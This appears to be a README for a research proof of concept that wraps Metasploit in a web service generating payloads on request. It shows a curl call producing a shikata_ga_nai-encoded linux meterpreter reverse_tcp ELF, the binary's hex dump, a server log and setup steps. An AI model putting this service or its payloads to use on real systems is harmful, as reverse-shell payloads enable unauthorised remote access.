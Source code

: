 # Venom as a Service
![Venom](http://vignette2.wikia.nocookie.net/mugen/images/8/8a/Venom.png/revision/latest?cb=20120325053415)
## Overview
As we know, [metasploit-framework](https://github.com/rapid7/metasploit-framework) is sunsetting `msfencode` and `msfpayload`. This, in combination with the recent move to Ruby 2.X seemed like an interesting research project.

This is a stupid PoC to show a few things:

  * MSF integration is becoming easier, but is still a PITA.
  * MSF setup/load times FAR exceed *actual* time spent doing anything.
  * Integration is still possible, allowing for extremely fast functionality.
  * Ruby 2.2.0 should function with MSF. No idea why they froze with 2.1.5.
  
There's a bunch of setup and shenanigans involved in getting this working, but here's a basic overview of what's happening.


### Using cURL
```
sweetjones @vaas <2.2.0@vaas> $ curl -sL 'http://localhost:4567/payload?payload=linux%2Fx86%2Fmeterpreter%2Freverse_tcp&format=elf&encoder=x86%2Fshikata_ga_nai&lhost=127.0.0.1&lport=8888' | xxd
0000000: 7f45 4c46 0101 0100 0000 0000 0000 0000  .ELF............
0000010: 0200 0300 0100 0000 5480 0408 3400 0000  ........T...4...
0000020: 0000 0000 0000 0000 3400 2000 0100 0000  ........4. .....
0000030: 0000 0000 0100 0000 0000 0000 0080 0408  ................
0000040: 0080 0408 b600 0000 1801 0000 0700 0000  ................
0000050: 0010 0000 dac6 ba7d 816e 1fd9 7424 f45b  .......}.n..t$.[
0000060: 31c9 b112 3153 1a83 ebfc 0353 16e2 88b0  1...1S.....S....
0000070: b5e8 91e0 0a44 3f05 3d0c 36e8 f051 dfb0  .....D?.=.6..Q..
0000080: 622d df46 72b9 dd46 5681 68a7 fc97 3278  b-.Fr..FV.h...2x
0000090: 500f 4b99 1162 cbe8 91c5 cb1c 9e35 42ff  P.K..b.......5B.
00000a0: 5fde 58c1 832d d0bc 8eae 4bb6 f036 ddc4  _.X..-....K..6..
00000b0: 424b ec55 5dad                           BK.U].
sweetjones @vaas <2.2.0@vaas> $
```

### Server Log
```
[27/Jan/2015 02:51:50] "GET /payload?payload=linux%2Fx86%2Fmeterpreter%2Freverse_tcp&format=elf&encoder=x86%2Fshikata_ga_nai&lhost=127.0.0.1&lport=8888 HTTP/1.1" 200 182 0.0088
```

It took 0.0088s to generate that ELF payload. All that needed to happen was a `GET` request to `/payload` with the following parameters:

  * payload=
  * format=
  * encoder=
  * lhost=
  * lport=
  
Too late to get into the code. Here's the setup:

  * `git --recursive clone $THIS_REPO_URL` Clone this repo and submodules
  * `cd $THIS_REPO` Change directory into this repo
  * `cp -Rf msf_gemfile_lock.txt msfdir/Gemfile.lock` Overwrite Gemfile's requirements
  * `cp -Rf msf_config_boot_rb.txt msfdir/config/boot.rb` Overwrite another MSF file.
  * `cd msfdir` Go into the MSF directory
  * `bundle install` Install MSF dependencies
  * `cd ..` Go back to $REPO directory
  * `bundle install` Install repo dependencies
  * `ruby app.rb`
  
That should work.
  